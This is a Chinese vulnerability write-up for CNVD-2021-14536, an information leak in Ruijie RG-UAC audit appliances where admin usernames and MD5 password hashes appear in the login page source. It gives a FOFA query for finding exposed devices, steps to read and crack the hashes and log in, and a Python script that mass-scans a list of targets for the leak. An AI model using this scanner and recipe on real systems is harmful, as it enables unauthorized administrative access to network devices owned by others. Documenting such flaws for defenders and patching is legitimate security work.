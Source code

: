 # 锐捷 RG-UAC 账号密码信息泄露 CNVD-2021-14536

## 漏洞描述

锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台

## 影响版本

```
锐捷RG-UAC统一上网行为管理审计系统
```

## FOFA

```
title="RG-UAC登录页面"
```

## 漏洞复现

来到登录页面

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110922912.png)

按F12查看源码,可以发现账号和密码的md5形式

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110922760.png)

解密md5得到密码后即可登录系统

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110922007.png)

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110922717.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110923131.png)

